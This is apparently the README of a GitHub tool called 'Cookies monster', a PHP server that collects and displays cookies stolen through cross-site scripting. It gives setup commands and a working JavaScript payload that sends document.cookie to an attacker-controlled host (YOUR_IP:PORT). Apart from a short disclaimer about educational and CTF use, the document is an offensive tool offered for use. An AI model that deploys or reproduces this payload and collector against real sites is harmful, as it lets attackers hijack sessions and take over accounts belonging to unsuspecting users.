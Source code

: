 
# Cookies monster 🍪
A tool to collect cookies and show them in a web page.


## Documentation 📖

This tool is to collect cookies via logs with XSS.

### Install requiriments 🔭

First you need to start the requiriments, you just need `php8.3`.

~~~bash
sudo apt install php8.3
~~~

#### Run the server 🏃

To run the server you need to be in the main directory of the project to then run the server with `PHP`.

~~~bash
php -S localhost:3333
~~~


### Collecting cookies 🗡️

You need to know how to do XSS Attacks to use this tool in a correct way, you have to add this URL `http://YOUR_IP:PORT/devil/devil.php?i=` to your script and then add the cookies, for example:

~~~JS
new Image().src='http://YOUR_IP:PORT/devil/devil.php?i='+document.cookie;
~~~

Then you will have the cookie in the file `cookies.txt` and it will be displayed in the web page.


### cleaning cookies 🗑️

To clean cookies you just need to add an space the `cookies.txt` file, you can use this command:

~~~bash
echo " " > devil/cookies.txt
~~~


## DISCLAIMER ⚠️

This tool is for educational and CTF use only.
The author is not responsible for illegal use.
Unauthorized access is a crime in most countries and may carry legal penalties.
Use responsibly and only with proper permission.

---
